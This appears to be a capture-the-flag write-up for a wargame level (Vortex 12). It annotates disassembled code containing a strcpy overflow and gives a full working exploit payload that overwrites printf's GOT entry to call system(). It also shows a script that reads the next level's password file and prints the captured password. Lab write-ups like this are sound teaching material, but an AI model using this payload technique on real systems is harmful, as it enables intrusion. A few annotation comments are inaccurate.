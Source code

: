 
Dump of assembler code for function main:
'''assembly
   0x080486b8 <+0>:     push   ebp
   0x080486b9 <+1>:     mov    ebp,esp
   0x080486bb <+3>:     push   esi
   0x080486bc <+4>:     push   ebx
   0x080486bd <+5>:     and    esp,0xfffffff0
   0x080486c0 <+8>:     sub    esp,0x20
   0x080486c3 <+11>:    mov    DWORD PTR [esp+0xc],0x0
   0x080486cb <+19>:    mov    DWORD PTR [esp+0x8],0x804865d		// looks like an address in memory
   0x080486d3 <+27>:    mov    DWORD PTR [esp+0x4],0x0
   0x080486db <+35>:    lea    eax,[esp+0x1c]
   0x080486df <+39>:    mov    DWORD PTR [esp],eax
   0x080486e2 <+42>:    call   0x8048550 <pthread_create@plt>		// pthread_start(struct, NULL, 0x804865d, NULL) - starts a thread with function 0x804865d
   0x080486e7 <+47>:    call   0x8048530 <getgid@plt>			// get group id...
   0x080486ec <+52>:    mov    esi,eax
   0x080486ee <+54>:    call   0x8048530 <getgid@plt>
   0x080486f3 <+59>:    mov    ebx,eax
   0x080486f5 <+61>:    call   0x8048530 <getgid@plt>
   0x080486fa <+66>:    mov    DWORD PTR [esp+0xc],esi
   0x080486fe <+70>:    mov    DWORD PTR [esp+0x8],ebx
   0x08048702 <+74>:    mov    DWORD PTR [esp+0x4],eax
   0x08048706 <+78>:    mov    DWORD PTR [esp],0xaa
   0x0804870d <+85>:    call   0x8048540 <syscall@plt>			// sethostname(getgid, ...) - try to elavate privligages...
   0x08048712 <+90>:    call   0x80484f0 <getuid@plt>
   0x08048717 <+95>:    mov    esi,eax
   0x08048719 <+97>:    call   0x80484f0 <getuid@plt>
   0x0804871e <+102>:   mov    ebx,eax
   0x08048720 <+104>:   call   0x80484f0 <getuid@plt>
   0x08048725 <+109>:   mov    DWORD PTR [esp+0xc],esi
   0x08048729 <+113>:   mov    DWORD PTR [esp+0x8],ebx
   0x0804872d <+117>:   mov    DWORD PTR [esp+0x4],eax
   0x08048731 <+121>:   mov    DWORD PTR [esp],0xa4
   0x08048738 <+128>:   call   0x8048540 <syscall@plt>			// settimeofday ...
   0x0804873d <+133>:   mov    eax,DWORD PTR [ebp+0xc]
   0x08048740 <+136>:   add    eax,0x4
   0x08048743 <+139>:   mov    eax,DWORD PTR [eax]
   0x08048745 <+141>:   mov    DWORD PTR [esp],eax
   0x08048748 <+144>:   call   0x8048698 <unsafecode>			// unsafecode(env[1])
   0x0804874d <+149>:   mov    eax,0x0
   0x08048752 <+154>:   lea    esp,[ebp-0x8]
   0x08048755 <+157>:   pop    ebx
   0x08048756 <+158>:   pop    esi
   0x08048757 <+159>:   pop    ebp
   0x08048758 <+160>:   ret 
'''   
'''assembly
Dump of assembler code for function unsafecode:
   0x08048698 <+0>:     push   ebp
   0x08048699 <+1>:     mov    ebp,esp
   0x0804869b <+3>:     sub    esp,0x418				// allocate 0x408 bytes for local buffer
   0x080486a1 <+9>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486a4 <+12>:    mov    DWORD PTR [esp+0x4],eax
   0x080486a8 <+16>:    lea    eax,[ebp-0x408]
   0x080486ae <+22>:    mov    DWORD PTR [esp],eax
   0x080486b1 <+25>:    call   0x8048500 <strcpy@plt>			//unsafe strcpy...
   0x080486b6 <+30>:    leave
   0x080486b7 <+31>:    ret

Dump of assembler code for function safecode:
   0x0804865d <+0>:     push   ebp
   0x0804865e <+1>:     mov    ebp,esp
   0x08048660 <+3>:     sub    esp,0x28
   0x08048663 <+6>:     mov    DWORD PTR [ebp-0xc],0x0
   0x0804866a <+13>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0804866d <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x08048671 <+20>:    mov    DWORD PTR [esp],0x80487f0
   0x08048678 <+27>:    call   0x80484c0 <printf@plt>
   0x0804867d <+32>:    mov    eax,ds:0x804a040
   0x08048682 <+37>:    mov    DWORD PTR [esp],eax
   0x08048685 <+40>:    call   0x80484d0 <fflush@plt>
   0x0804868a <+45>:    mov    DWORD PTR [esp],0x1
   0x08048691 <+52>:    call   0x80484e0 <sleep@plt>
   0x08048696 <+57>:    jmp    0x804866a <safecode+13>
'''

If we recall, this code is identical to vortex8, but this time the stack isnt executable...  
So, this time we'll want to use the already existing function strcpy to overwrite printf@plt, and run system("%d\n", ...) instead...  
now, we must keep the original thread alive long enough to execute printf, this is done by running system("/bin/sh")  
let's prepare the stack to execute that operation:  
RECALL: a function's stack looks like: RET_ADDR param1 param2 ... parmN  
so: lets call strcpy(printf@got.plt, SYSTEM_ADDR_IN_STACK)  
finding system proved to be easy enough:  
'''bash
(gdb) print system
$1 = {int (const char *)} 0xf7fc3eb0 <system>
'''
similarly, strcpy address is 0xf7e937b0  

we go to the line call strcpy in unsafecode(), with the parameters dest = printf.got.plt, source=system.plt address (on stack), then return using ret to system("/bin/sh")...  
(remember, ebp = 0xffffd2d4)  

$(python -c 'print "A"*0x408 + "\xd4\xd2\xff\xff" + "\xb1\x86\x04\x08" +"\x0c\xa0\x04\x08" + "BBBB" + "\xb0\x3e\xfc\xf7" + "CCCCCCCC" + "/bin/sh"')  
breakdown of the payload:  
[1032-buffer replaced-ebp jmp-to-(call strcpy@plt) dest-addr source-addr ret-addr-of-unsafecode(system) ret-addr-of-system param1-system]  
we found out the stack locations to be: BBBB = 0xffffd2d8, CCCC = 0xffffd2e4  
$(python -c 'print "A"*0x408 + "\xd4\xd2\xff\xff" + "\xb1\x86\x04\x08" +"\x0c\xa0\x04\x08" + "\xd8\xd2\xff\xff" + "\xb0\x3e\xfc\xf7" + "CCCC\xe4\xd2\xff\xff" + "/bin/sh"')  
let's create a script file called %d and link it to PATH:  
'''bash
#/bin/sh

cat /etc/vortex_pass/vortex13
'''

at last, we get:  
'''bash
vortex12@vortex:/tmp/vt12$ /vortex/vortex12 $(python -c 'print "A"*0x408 + "\xd4\xd2\xff\xff" + "\xb1\x86\x04\x08" +"\x0c\xa0\x04\x08" + "\xd8\xd2\xff\xff" + "\xb0\x3e\xfc\xf7" + "CCCC\xe4\xd2\xff\xff" + "/bin/sh"')
$ jMyg12=nB
Segmentation fault (core dumped)
'''
it worked!  
password: jMyg12=nB  



